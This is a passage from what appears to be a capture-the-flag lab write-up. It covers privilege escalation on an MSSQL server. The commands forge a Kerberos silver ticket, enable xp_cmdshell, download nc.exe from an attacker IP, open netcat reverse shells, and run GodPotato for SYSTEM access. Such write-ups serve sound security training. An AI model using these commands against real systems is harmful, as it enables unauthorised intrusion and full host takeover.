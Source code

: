 So, we are targetting a mssql database, if we can craft a silver ticket then we will able to impersonate SA, enable "xp_cmdshell" and get a shell with "SeImpersonatePrivilege" therefore, run a Potato and we are NT/AUTHORITY SYSTEM

[https://zethicxz.github.io/VL-Sendai-Machine/#other-way-to-privesc-silver-ticket--seimpersonateprivilege](https://zethicxz.github.io/VL-Sendai-Machine/#other-way-to-privesc-silver-ticket--seimpersonateprivilege)

[https://vulndev.io/2022/01/08/kerberos-silver-tickets/](https://vulndev.io/2022/01/08/kerberos-silver-tickets/)

Let's start the attack :

```bash
ticketer.py -nthash 'E2[...]72C' -domain-sid S-1-5-21-641890747-1618203462-755025521 -domain klendathu.vl -spn MSSQLSvc/srv1.klendathu.vl -user-id 500 Administrator

export KRB5CCNAME='Administrator.ccache'

mssqlclient.py srv1.klendathu.vl -windows-auth -k
```
```bash
# Enable xp_cmdshell
> EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

# Verify that we have SeImpersonatePrivilege
> xp_cmdshell "whoami /priv"

SeImpersonatePrivilege        Impersonate a client after authentication Enabled

> xp_cmdshell "echo IWR http://10.8.2.163/nc.exe -OutFile %TEMP%\nc.exe | powershell -noprofile"
> xp_cmdshell "%TEMP%\nc.exe 10.8.2.163 9001 -e powershell"
```
Then upload GodPotato and nc.exe in C:\temp

```powershell
./godpotato.exe -cmd "cmd /c C:\temp\nc.exe 10.8.2.163 1234 -e powershell
```
![alt text](../assets/image_klendathu/4er.png)
